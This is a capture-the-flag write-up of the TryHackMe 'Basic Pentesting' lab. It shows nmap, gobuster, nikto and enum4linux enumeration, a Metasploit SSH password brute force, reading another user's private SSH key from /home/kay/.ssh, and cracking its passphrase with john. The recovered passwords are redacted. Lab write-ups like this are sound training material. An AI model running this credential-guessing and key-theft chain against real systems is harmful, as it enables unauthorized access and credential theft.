 # Basic Pentesting
https://tryhackme.com/room/basicpentestingjt
---
## Enumeration

- **IP Address:** 10.10.73.11

### gobuster
`gobuster dir -u 10.10.73.11 -x .php,.xml,.html -w /usr/share/wordlists/dirb/common.txt`
<pre>
/.hta (Status: 403)
/.hta.php (Status: 403)
/.hta.xml (Status: 403)
/.hta.html (Status: 403)
/.htaccess (Status: 403)
/.htaccess.xml (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.xml (Status: 403)
/.htpasswd.html (Status: 403)
[/development (Status: 301)](###10.10.73.11/development/)
/index.html (Status: 200)
/index.html (Status: 200)
/server-status (Status: 403)
</pre>

### nmap
`nmap -A -T5 -p- 10.10.73.11`
<pre>
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        Apache Tomcat 9.0.7
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown\>
(unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-05-18T12:25:16-04:00                                                                                                                                                                                                 
| smb-security-mode:                                                                                                                                                                                                                       
|   account_used: guest                                                                                                                                                                                                                    
|   authentication_level: user                                                                                                                                                                                                             
|   challenge_response: supported                                                                                                                                                                                                          
|_  message_signing: disabled (dangerous, but default)                                                                                                                                                                                     
| smb2-security-mode:                                                                                                                                                                                                                      
|   2.02:                                                                                                                                                                                                                                  
|_    Message signing enabled but not required                                                                                                                                                                                             
| smb2-time:                                                                                                                                                                                                                               
|   date: 2021-05-18T16:25:16                                                                                                                                                                                                              
|_  start_date: N/A
</pre>



### nikto
`nikto -h 10.10.73.11`
<pre>
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 9e, size: 56a870fbc8f28, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ OSVDB-3268: /development/: Directory indexing found.
+ OSVDB-3092: /development/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.

</pre>
### Wappalyzer
- **Webserver:** Apache 2.4.18
- **OS:** Ubuntu
---
## Investigation

### /index.html
- Just shows undergoing maintenance

### /development/

Contains: 
1. j.txt
- Reveals that they are using vers 2.5.12, using "struts"
-- [Exploitdb shows vers 2.5.12 of vulnerable to RCE](https://www.exploit-db.com/exploits/42627)
- Shows SMB configured, nmap shows it as 2.02
2. dev.txt 
- Reveals that user "j" has a weak password hash


## Intrusion

1. ~~port 8009 allows POST, maybe inject the vuln found on exploitDB above?~~
2. SMB port 445 is open for [enum4linux](https://tools.kali.org/information-gathering/enum4linux) 
`enum4linux -a 10.10.73.11`
- gives us "jan" and "kay"
3. brute force using ssh with metasploit
- open metasploit
- set options 
```  
search ssh
use 18
set USERNAME jan
set RHOSTS 10.10.73.11
set RPORT 22
set PASS_FILE /usr/share/wordlists/rockyou.txt
set VERBOSE true
exploit
```
- **password:** ___REDACTED___

## post-intrusion

`cd /tmp`
- `nano linenum.sh` and copy paste [enumeration script](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- ~~check for GTFO bins~~
- ~~check for relaxed permissions~~
- go looking in /home/kay for some information
` cat /home/kay/.ssh/id_rsa`

on local machine:
`ssh -i kaykey kay@10.10.73.11`
- connection asks for passphrase?

```
ssh2john.py kaykey > johnkey
john -wordlist=/usr/share/wordlists/rockyou.txt johnkey
```
passphrase= ___REDACTED___

-- `ssh -i kaykey kay@10.10.73.11`
-- **passphrase:** ___REDACTED___
-- `cat pass.bak`
___REDACTED___
